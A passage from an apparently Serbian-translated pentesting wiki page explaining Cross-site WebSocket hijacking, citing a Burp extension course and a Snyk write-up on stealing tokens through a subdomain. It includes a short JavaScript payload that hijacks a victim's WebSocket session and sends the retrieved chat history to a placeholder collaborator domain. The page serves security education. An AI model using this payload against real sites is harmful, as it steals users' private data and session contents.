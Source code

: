 U [**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course) imate kod za pokretanje veba koristeći websocket-e, a u [**ovom postu**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/) možete pronaći objašnjenje.

## Cross-site WebSocket hijacking (CSWSH)

**Cross-site WebSocket hijacking**, takođe poznat kao **cross-origin WebSocket hijacking**, identifikovan je kao specifičan slučaj [**Cross-Site Request Forgery (CSRF)**](csrf-cross-site-request-forgery.md) koji utiče na WebSocket handshake. Ova ranjivost se javlja kada WebSocket handshake autentifikuje samo putem **HTTP kolačića** bez CSRF tokena ili sličnih sigurnosnih mera.

Napadači mogu iskoristiti ovo tako što će hostovati **zlonamernu veb stranicu** koja inicira cross-site WebSocket konekciju sa ranjivom aplikacijom. Kao rezultat toga, ova konekcija se tretira kao deo sesije žrtve sa aplikacijom, iskorišćavajući nedostatak CSRF zaštite u mehanizmu upravljanja sesijom.

### Jednostavan napad

Imajte na umu da prilikom **uspostavljanja** websocket konekcije, **kolačić** se **šalje** serveru. Server ga može koristiti da **poveže** svakog **specifičnog** **korisnika** sa njegovom **websocket** **sesijom na osnovu poslatog kolačića**.

Zatim, ako na **primer** websocket **server** **vrati istoriju razgovora** korisnika ako se pošalje poruka sa "**READY"**, onda jednostavan XSS koji uspostavlja konekciju (kolačić će biti **automatski poslat** da autorizuje žrtvu) slanjem "**READY**" će biti u mogućnosti da **dobije** istoriju **razgovora**.

```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

### Cross Origin + Kolačić sa drugim poddomenom

U ovom blog postu [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) napadač je uspeo da **izvrši proizvoljni JavaScript u poddomenu** domena gde se odvijala komunikacija putem web socket-a. Zbog toga što je bio **poddomen**, **kolačić** je bio **poslat**, a zbog toga što **Websocket nije pravilno proveravao poreklo**, bilo je moguće komunicirati sa njim i **ukrasti tokene iz njega**.

### Krađa podataka od korisnika
